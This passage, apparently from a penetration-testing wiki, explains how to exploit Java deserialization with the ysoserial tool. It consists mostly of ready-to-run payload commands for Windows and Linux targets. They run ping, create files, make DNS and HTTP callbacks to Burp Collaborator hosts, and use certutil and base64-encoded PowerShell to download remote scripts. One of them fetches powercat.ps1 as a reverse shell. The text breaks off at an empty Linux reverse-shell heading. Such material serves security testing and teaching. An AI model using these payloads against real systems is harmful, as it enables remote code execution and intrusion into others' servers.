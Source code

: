### **Exploit**

#### **ysoserial**

The most well-known tool to exploit HTTP deserializations is **** [**ysoserial**](https://github.com/frohoff/ysoserial) ([**download here**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)).\
****Note that this tool is **focused** on exploiting **`ObjectInputStream`**.\
I would **start using the "URLDNS"** payload **before a RCE** payload to test if the injection is possible. Anyway, note that maybe the "URLDNS" payload is not working but other RCE payload is.

```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
## Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
## Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
## Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
## DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
## HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
### In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
### To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
## Reverse Shell
### Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
## Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload 
## Time
### Using time in bash I didn't notice any difference in the timing of the response
## Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
## DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
## HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
## Reverse shell
```